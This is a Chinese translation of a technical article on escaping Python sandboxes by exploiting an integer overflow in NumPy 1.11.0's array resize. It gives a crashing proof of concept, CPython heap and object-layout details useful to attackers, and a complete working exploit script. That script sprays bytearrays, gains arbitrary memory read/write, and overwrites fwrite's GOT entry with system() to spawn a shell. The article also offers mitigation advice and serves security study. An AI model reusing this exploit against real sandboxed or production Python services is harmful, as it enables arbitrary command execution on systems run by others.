

# 【技术分享】利用内存破坏漏洞实现 Python 沙盒逃逸


                                阅读量   
                                **134676**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：hackernoon.com
                                <br>原文地址：[https://hackernoon.com/python-sandbox-escape-via-a-memory-corruption-bug-19dde4d5fea5?gi=90438c9b4429](https://hackernoon.com/python-sandbox-escape-via-a-memory-corruption-bug-19dde4d5fea5?gi=90438c9b4429)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/85842/t01e07ec5567e9cdf15.jpg)


作者：[beswing](http://bobao.360.cn/member/contribute?uid=820455891)

预估稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

索性跳过了文作者的自述，我们直接进入到技术细节吧~

Python环境使用自定义白名单/黑名单方案来阻止访问危险的内置函数，模块，函数等。基于操作系统的隔离提供了一些额外的保护（虽然可能有些过时）。 打破锁定的Python解释器不是一个100％的胜利，但它使攻击者能够威胁到操作系统本身。

作者，是这么认为的，Python模块通常是包装后的C代码，那么我们是否能发现内存被恶意篡改或者利用内存破坏的漏洞来实现Python沙盒的逃逸？

那么，我们该从哪入手。 我知道在Python]沙箱中只能import白名单中的Python模块。 也许我应该运行一个分布式的AFL fuzzer网络？ 还是一个符号执行引擎？ 或者也许我应该用最先进的静态分析工具扫描它们？ 当然，我可以做任何这些事情。 或者我可以跟踪一些曾经出现的bug，来查询是否有仍有可利用的存在。

[](https://p2.ssl.qhimg.com/t01966abde7cd4718c4.png)

[](https://p2.ssl.qhimg.com/t01b302eff471150634.png)

[](https://p4.ssl.qhimg.com/t012e3cb25db632765f.png)

在作者通过手动代码的审查和测试中，发现了一个Pyhon沙盒白名单的模块的一个可以用的内存破坏漏洞。这个bug，存在于Numpy模块。这是一个一个用python实现的科学计算包。包括：1、一个强大的N维数组对象Array；2、比较成熟的（广播）函数库；3、用于整合C/C++和Fortran代码的工具包；4、实用的线性代数、傅里叶变换和随机数生成函数。numpy和稀疏矩阵运算包scipy配合使用更加方便。

NumPy（Numeric Python）提供了许多高级的数值编程工具，如：矩阵数据类型、矢量处理，以及精密的运算库。专为进行严格的数字处理而产生。多为很多大型金融公司使用，以及核心的科学计算组织如：Lawrence Livermore，NASA用其处理一些本来使用C++，Fortran或Matlab等所做的任务。

如果要从Numpy作为入手，那么我先来分析源码，首先作者查看了代码的行数：

```
$ cloc * 520 text files. 516 unique files. 43 files ignored.http://cloc.sourceforge.net v 1.60 T=2.42 s (196.7 files/s, 193345.0 lines/s) — — — — — — — — — — — — — — — — — — — —Language files blank comment code — — — — — — — — — — — — — — — — — — — — C 68 36146 70025 170992Python 311 27718 57961 87081C/C++ Header 82 1778 2887 7847Cython 1 947 2556 1627Fortran 90 10 52 12 136Fortran 77 3 2 1 83make 1 15 19 62 — — — — — — — — — — — — — — — — — — — — SUM: 476 66658 133461 267828
```

近20万行的C代码。而且这里存在一些bug。在这篇文章的其余部分，我首先描述导致这个漏洞的条件。 接下来，我讨论一些使用开发人员应该意识到的CPython运行时的行为，然后我将逐步了解实际的漏洞。 最后，我将思考量化在Python应用程序中的内存损坏问题的风险。

<br>

**The Vulnerability**

我将要通过的漏洞是Numpy v1.11.0（也许是旧版本）的整数溢出错误。 自v1.12.0以来，该问题已经解决，但没有发布安全咨询。该漏洞驻留在用于调整Numpy的多维数组类对象（ ndarray和friends）的API中。 调用resize调用定义数组形状的元组，其中元组的每个元素都是维的大小。


```
$ python
    &gt;&gt;&gt; import numpy as np
    &gt;&gt;&gt; arr = np.ndarray((2, 2), ‘int32’)
    &gt;&gt;&gt; arr.resize((2, 3))
    &gt;&gt;&gt; arrarray([[-895628408, 32603, -895628408],[ 32603, 0, 0]], dtype=int32)
```

Sidenote：嗯，数组正在泄漏未初始化的内存，但是我们不会专注于这个post。

在覆盖下，resize实际上的realloc缓冲区，其大小计算为形状元组和元素大小中每个元素的乘积。 所以在前面的代码片段中，arr.resize((2, 3))归结为C代码realloc(buffer, 2 * 3 * sizeof(int32))。 下一个代码片段是C中resize实现。


```
NPY_NO_EXPORT PyObject *
PyArray_Resize(PyArrayObject *self, PyArray_Dims *newshape, int refcheck,
        NPY_ORDER order)
{
    // npy_intp is `long long`
    npy_intp* new_dimensions = newshape-&gt;ptr;
    npy_intp newsize = 1;
    int new_nd = newshape-&gt;len;
    int k;
    // NPY_MAX_INTP is MAX_LONGLONG (0x7fffffffffffffff)
    npy_intp largest = NPY_MAX_INTP / PyArray_DESCR(self)-&gt;elsize;
    for(k = 0; k &lt; new_nd; k++) {
        newsize *= new_dimensions[k];
        if (newsize &lt;= 0 || newsize &gt; largest) {
            return PyErr_NoMemory();
        }
    }
    if (newsize == 0) {
        sd = PyArray_DESCR(self)-&gt;elsize;
    }
    else {
        sd = newsize*PyArray_DESCR(self)-&gt;elsize;
    }
    /* Reallocate space if needed */
    new_data = realloc(PyArray_DATA(self), sd);
    if (new_data == NULL) {
        PyErr_SetString(PyExc_MemoryError,
                "cannot allocate memory for array”);
        return NULL;
    }
    ((PyArrayObject_fields *)self)-&gt;data = new_data;
```

我们可以在代码段中找到漏洞。 您可以在for循环（第13行）中看到每个维度相乘以产生新的大小。 稍后（第25行），将新大小和元素大小的乘积作为大小传递给保存数组的realloc内存。 在realloc之前有一些关于新大小的验证，但是它不会检查整数溢出，这意味着非常大的维度可能导致分配的大小不足的数组。最终，这给攻击者一个强大的攻击途径：通过从具有overflown大小的数组进行索引来读取或写入任意内存的能力。

我们写一个Poc来验证漏洞：


```
$ cat poc.py
import numpy as np
arr = np.array('A'*0x100)
arr.resize(0x1000, 0x100000000000001)
print "bytes allocated for entire array:    " + hex(arr.nbytes) 
print "max # of elemenets for inner array:  " + hex(arr[0].size)
print "size of each element in inner array: " + hex(arr[0].itemsize) 
arr[0][10000000000]
$ python poc.py
bytes allocated for entire array:    0x100000
max # of elemenets for inner array:  0x100000000000001
size of each element in inner array: 0x100
[1]    2517 segmentation fault (core dumped)  python poc.py
$ gdb `which python` core
...
Program terminated with signal SIGSEGV, Segmentation fault.
(gdb) bt
#0 0x00007f20a5b044f0 in PyArray_Scalar (data=0x8174ae95f010, descr=0x7f20a2fb5870, 
 base=&lt;numpy.ndarray at remote 0x7f20a7870a80&gt;) at numpy/core/src/multiarray/scalarapi.c:651
#1 0x00007f20a5add45c in array_subscript (self=0x7f20a7870a80, op=&lt;optimized out&gt;)
 at numpy/core/src/multiarray/mapping.c:1619
#2 0x00000000004ca345 in PyEval_EvalFrameEx () at ../Python/ceval.c:1539…
(gdb) x/i $pc
=&gt; 0x7f20a5b044f0 &lt;PyArray_Scalar+480&gt;: cmpb $0x0,(%rcx)
(gdb) x/g $rcx
0x8174ae95f10f: Cannot access memory at address 0x8174ae95f10f
CPython运行时的quirks
```

在编写漏洞的利用脚本之前。想讨论一些CPython运行时可以轻松利用漏洞的方法，同时也讨论了如何使漏洞利用开发人员受挫。 如果您想直接进入漏洞利用，请随意跳过本节。

<br>

**泄漏内存地址**

通常情况下，首要苦难之一就是绕过地址空间布局随机化（ASLR）。 幸运的是，对于攻击者来说，Python使得这很容易。 内置的id函数返回对象的内存地址，或者更准确地说，封装对象的PyObject结构的地址。


```
$ gdb -q — arg /usr/bin/python2.7 (gdb) run -i 
…
 &gt;&gt;&gt; a = ‘A’*0x100 
 &gt;&gt;&gt; b = ‘B’*0x100000 
 &gt;&gt;&gt; import numpy as np 
 &gt;&gt;&gt; c = np.ndarray((10, 10)) 
 &gt;&gt;&gt; hex(id(a)) 
 ‘0x7ffff7f65848’ 
 &gt;&gt;&gt; hex(id(b))
  ‘0xa52cd0’ 
 &gt;&gt;&gt; hex(id(c))
  ‘0x7ffff7e777b0’
```

实际上在应用程序中，开发人员应确保不向用户公开id(object) 。 在沙盒化的环境中，除了可以将列表id或重新实现id以返回哈希之外，还可以做很多事情。

<br>

**了解内存分配行为**

了解您的分配器对于编写漏洞利用脚本至关重要。 Python具有基于对象类型和大小的不同分配策略。 我们来看看我们的大字符串0xa52cd0，小字符串0x7ffff7f65848和numpy数组0x7ffff7e777b0。


```
$ cat /proc/`pgrep python`/maps 
00400000–006ea000 r-xp 00000000 08:01 2712 /usr/bin/python2.7
008e9000–008eb000 r — p 002e9000 08:01 2712 /usr/bin/python2.7
008eb000–00962000 rw-p 002eb000 08:01 2712 /usr/bin/python2.7
00962000–00fa8000 rw-p 00000000 00:00 0 [heap]  # big string
...
7ffff7e1d000–7ffff7edd000 rw-p 00000000 00:00 0 # numpy array
...
7ffff7f0e000–7ffff7fd3000 rw-p 00000000 00:00 0 # small string
```

字符串在常规堆中。 小字符串和numpy数组位于单独的mmap区域中。

<br>

**Python对象结构**

泄漏和破坏Python对象元数据可能相当强大，因此了解Python对象的表示方式很有用。 在封面下，Python对象都派生自PyObject ，这是一个包含引用计数和对象实际类型描述符的结构。 值得注意的是，类型描述符包含许多字段，包括可能对读取或覆盖有用的函数指针。

我们先检查我们在前一节中创建的小字符串。


```
(gdb) print *(PyObject *)0x7ffff7f65848
$2 = {ob_refcnt = 1, ob_type = 0x9070a0 &lt;PyString_Type&gt;}
(gdb) print *(PyStringObject *)0x7ffff7f65848
$3 = {ob_refcnt = 1, ob_type = 0x9070a0 &lt;PyString_Type&gt;, ob_size = 256, ob_shash = -1, ob_sstate = 0, ob_sval = “A”}
(gdb) x/s ((PyStringObject *)0x7ffff7f65848)-&gt;ob_sval
0x7ffff7f6586c: ‘A’ &lt;repeats 200 times&gt;...
(gdb) ptype PyString_Type 
type = struct _typeobject {
    Py_ssize_t ob_refcnt;
    struct _typeobject *ob_type;
    Py_ssize_t ob_size;
    const char *tp_name;
    Py_ssize_t tp_basicsize;
    Py_ssize_t tp_itemsize;
    destructor tp_dealloc;
    printfunc tp_print;
    getattrfunc tp_getattr;
    setattrfunc tp_setattr;
    cmpfunc tp_compare;
    reprfunc tp_repr;
    PyNumberMethods *tp_as_number;
    PySequenceMethods *tp_as_sequence;
    PyMappingMethods *tp_as_mapping;
    hashfunc tp_hash;
    ternaryfunc tp_call;
    reprfunc tp_str;
    getattrofunc tp_getattro;
    setattrofunc tp_setattro;
    PyBufferProcs *tp_as_buffer;
    long tp_flags;
    const char *tp_doc;
    traverseproc tp_traverse;
    inquiry tp_clear;
    richcmpfunc tp_richcompare;
    Py_ssize_t tp_weaklistoffset;
    getiterfunc tp_iter;
    iternextfunc tp_iternext;
    struct PyMethodDef *tp_methods;
    struct PyMemberDef *tp_members;
    struct PyGetSetDef *tp_getset;
    struct _typeobject *tp_base;
    PyObject *tp_dict;
    descrgetfunc tp_descr_get;
    descrsetfunc tp_descr_set;
    Py_ssize_t tp_dictoffset;
    initproc tp_init;
    allocfunc tp_alloc;
    newfunc tp_new;
    freefunc tp_free;
    inquiry tp_is_gc;
    PyObject *tp_bases;
    PyObject *tp_mro;
    PyObject *tp_cache;
    PyObject *tp_subclasses;
    PyObject *tp_weaklist;
    destructor tp_del;
    unsigned int tp_version_tag;
}
```

许多有用的字段读取或写入类型的指针，函数指针，数据指针，大小等等。

<br>

**Shellcode like it's 1999**

ctypes库作为Python和C代码之间的桥梁。 它提供C兼容的数据类型，并允许在DLL或共享库中调用函数。 许多具有C绑定或需要调用共享库的模块需要导入ctypes。

我注意到，导入ctypes会导致以读/写/执行权限设置的4K大小的内存区域映射。 如果还不明显，这意味着攻击者甚至不需要编写一个ROP链。 利用一个错误就像把指令指针指向你的shellcode一样简单，你被授予你已经找到了RWX区域。


```
$ cat foo.py
import ctypes
while True: 
    pass
$ python foo.py
^Z
[2] + 30567 suspended python foo.py
$ grep rwx /proc/30567/maps7fcb806d5000–7fcb806d6000 rwxp 00000000 00:00 0
```

进一步调查，我发现libffi的封闭API 负责打印RWX区域。 但是，该区域不能在某些平台上分配RWX，例如启用了selinux强制或PAX mprotect的系统，并且有代码可以解决这个限制。我没有花太多时间尝试可靠地定位RWX映射，但是从理论上说，如果你有一个任意读取的exploit，应该是可能的。 当ASLR应用于库（library）时，动态链接器以可预测的顺序映射库（library）的区域。 库（library）的地区包括库私有的全局变量和代码本身。Libffi将对RWX地区的引用存储为全局。 例如，如果您在堆上找到指向libffi函数的指针，则可以将RWX区域指针的地址预先计算为与libffi函数指针的地址的偏移量。 每个库版本都需要调整偏移量。

<br>

**De facto exploit mitigations**

我在Ubuntu 14.04.5和16.04.1上测试了Python2.7二进制程序的安全相关编译器标志。 有几个弱点，对攻击者来说是非常有用的：

Partial RELRO：可执行文件的GOT部分 ，包含动态链接到二进制文件中的库函数的指针，是可写的。 例如，explolo可以用system()替换printf()的地址。

No PIE：二进制文件不是与位置无关的可执行文件，这意味着当内核将ASLR应用于大多数内存映射时，二进制本身的内容将映射到静态地址。 由于GOT部分是二进制文件的一部分，因此PIE不会使攻击者更容易找到并写入GOT。

<br>

**Road blocks**

虽然CPython是充分利用开发人员工具的环境，但有一些力量破坏了我的许多漏洞尝试，难以调试

垃圾收集器，类型系统以及可能的其他未知的力将破坏您的漏洞利用，如果您不小心克隆对象元数据。

id()可能不可靠。 由于我无法确定，Python有时会在使用始对象时传递对象的副本。

对象分配的区域有些不可预测。 由于我无法确定，某些编码模式导致缓冲区被分配到brk堆中，而其他模式导致在一个python特定的mmap'd堆中分配。

<br>

**漏洞利用**

发现numpy整数溢出后不久，我向Bug的一个报告提交了劫持指令指针的概念证明，但没有注入任何代码。 当我最初提交时，我没有意识到PoC实际上是不可靠的，并且我无法对其服务器进行正确的测试，因为验证劫持指令指针需要访问核心转储或调试器。 供应商承认这个问题的合法性，但是比起我的第一份报告，他们给了一个不那么慷慨的回报。

很公平！

我不是一个漏洞利用开发者，但我挑战自己做得更好。 经过多次尝试和错误，我最终写了一个似乎是可靠的漏洞。 不幸的是，我无法在供应商的沙箱中测试它，因为在完成之前更新了numpy，但是在Python解释器中本地测试时它的工作正常。

在高层次上，漏洞利用一个numpy数组的大小来获取任意的读/写漏洞利用的攻击。这个攻击用于将system的地址写入fwrite的GOT / PLT条目。 最后，Python的内置print调用fwrite覆盖，所以现在你可以调用print '/bin/sh'来获取shell，或者用任何命令替换/ bin / sh。

有一些比高级别的解释更多，所以请查看下面的漏洞。 我建议从自下而上开始阅读，包括评论。 如果您使用的是不同版本的Python，请在运行该文件之前调整fwrite和system的GOT位置。


```
import numpy as np
# addr_to_str is a quick and dirty replacement for struct.pack(), needed
# for sandbox environments that block the struct module.
def addr_to_str(addr):
    addr_str = "%016x" % (addr)
    ret = str()
    for i in range(16, 0, -2):
        ret = ret + addr_str[i-2:i].decode('hex')
    return ret
# read_address and write_address use overflown numpy arrays to search for
# bytearray objects we've sprayed on the heap, represented as a PyByteArray
# structure:
# 
# struct PyByteArray {
#     Py_ssize_t ob_refcnt;
#     struct _typeobject *ob_type;
#     Py_ssize_t ob_size;
#     int ob_exports;
#     Py_ssize_t ob_alloc;
#     char *ob_bytes;
# };
# 
# Once located, the pointer to actual data `ob_bytes` is overwritten with the
# address that we want to read or write. We then cycle through the list of byte
# arrays until we find the  one that has been corrupted. This bytearray is used
# to read or write the desired location. Finally, we clean up by setting
# `ob_bytes` back to its original value.
def find_address(addr, data=None):
    i = 0
    j = -1
    k = 0
    if data:
        size = 0x102
    else:
        size = 0x103
    for k, arr in enumerate(arrays):
        i = 0
        for i in range(0x2000): # 0x2000 is a value that happens to work
            # Here we search for the signature of a PyByteArray structure
            j = arr[0][i].find(addr_to_str(0x1))                  # ob_refcnt
            if (j &lt; 0 or
                arr[0][i][j+0x10:j+0x18] != addr_to_str(size) or  # ob_size
                arr[0][i][j+0x20:j+0x28] != addr_to_str(size+1)): # ob_alloc
                continue
            idx_bytes = j+0x28                                    # ob_bytes
            # Save an unclobbered copy of the bytearray metadata
            saved_metadata = arrays[k][0][i]
            # Overwrite the ob_bytes pointer with the provded address
            addr_string = addr_to_str(addr)
            new_metadata = (saved_metadata[0:idx_bytes] +
                     addr_string +
                     saved_metadata[idx_bytes+8:])
            arrays[k][0][i] = new_metadata
            ret = None
            for bytearray_ in bytearrays:
                try:
                    # We differentiate the signature by size for each
                    # find_address invocation because we don't want to
                    # accidentally clobber the wrong  bytearray structure.
                    # We know we've hit the structure we're looking for if
                    # the size matches and it contents do not equal 'XXXXXXXX'
                    if len(bytearray_) == size and bytearray_[0:8] != 'XXXXXXXX':
                        if data:
                            bytearray_[0:8] = data # write memory
                        else:
                            ret = bytearray_[0:8] # read memory
                        # restore the original PyByteArray-&gt;ob_bytes
                        arrays[k][0][i] = saved_metadata
                        return ret
                except:
                    pass
    raise Exception("Failed to find address %x" % addr)
def read_address(addr):
    return find_address(addr)
def write_address(addr, data):
    find_address(addr, data)
# The address of GOT/PLT entries for system() and fwrite() are hardcoded. These
# addresses are static for a given Python binary when compiled without -fPIE.
# You can obtain them yourself with the following command:
# `readelf -a /path/to/python/ | grep -E '(system|fwrite)'
SYSTEM = 0x8eb278
FWRITE = 0x8eb810
# Spray the heap with some bytearrays and overflown numpy arrays.
arrays = []
bytearrays = []
for i in range(100):
    arrays.append(np.array('A'*0x100))
    arrays[-1].resize(0x1000, 0x100000000000001)
    bytearrays.append(bytearray('X'*0x102))
    bytearrays.append(bytearray('X'*0x103))
# Read the address of system() and write it to fwrite()'s PLT entry. 
data = read_address(SYSTEM)
write_address(FWRITE, data)
# print() will now call system() with whatever string you pass
print "PS1='[HACKED] $ ' /bin/sh"
```

运行漏洞利用给你一个“hacked”的shell。

如果您没有运行Python 2.7.12，请参阅漏洞利用中的注释，了解如何使其适用于您的Python版本

<br>

**量化风险**

众所周知，Python的核心和许多第三方模块都是C代码的包装。 也许不那么认识到，内存损坏错误在流行的Python模块中一直没有像CVE，安全公告，甚至提及发行说明中的安全修复一样被报告。

那么是的，Python模块中有很多内存损坏的bug。 当然不是所有的都是可以利用的，但你必须从某个地方开始。 为了解释内存损坏错误造成的风险，我发现使用两个不同的用例来构建对话：常规Python应用程序和沙盒不受信任的代码。

<br>

**Regular applications**

我们关心的应用程序类型是具有有意义的攻击面的那些。 考虑Web应用程序和其他面向网络的服务，处理不受信任内容，特权系统服务等的客户端应用程序。这些应用程序中的许多应用程序导入针对C代码的Python模块，而不是将其内存损坏错误视为安全问题的项目。 这个纯粹的想法可能会让一些安全专业人员在即使受到伤害，也实际上风险通常被忽视或忽视。 我怀疑有几个原因：

远程识别和利用内存损坏问题的难度相当高，特别是对于源代码和远程应用程序。

应用程序暴露不可信输入路径以达到易受攻击的功能的可能性可能相当低。

意识不足，因为Python模块中的内存损坏错误通常不会被视为安全问题。

如此公平地说，由于某些随机Python模块中的缓冲区溢出而导致入侵的可能性可能相当低。 但是，再一次，内存破坏的缺陷在发生时可能是非常有害的。 有时，甚至没有人明确地利用他们造成伤害。 更糟糕的是，当库维护者在安全性方面不考虑内存损坏问题时，保持库修补是非常不可能的。

如果您开发了一个主要的Python应用程序，建议您至少选择正在使用的Python模块的清单。 尝试找出您的模块依赖多少C代码，并分析本地代码暴露于应用程序边缘的潜力。

<br>

**沙盒**

有一些服务允许用户在沙箱内运行不受信任的Python代码。 操作系统级的沙盒功能，如linux命名空间和seccomp，最近才以Docker，LXC等形式流行。今天仍然可以使用较弱的沙盒技术 – 在chroot形式的OS层监狱或更糟糕的是，沙盒可以完全在Python中完成（请参阅[pypy-sandbox](http://doc.pypy.org/en/latest/sandbox.html)和[pysandbox](https://github.com/haypo/pysandbox)     ）。

内存损坏错误完全打破了OS不执行的沙盒。 执行Python代码子集的能力使得开发远比常规应用程序更可行。 即使是由于其虚拟化系统调用的二进程模型而声称安全的Pypy-sandbox也可能被缓冲区溢出所破坏。

如果您想运行任何类型的不受信任的代码，请投入努力建立一个安全的操作系统和网络架构来沙箱。
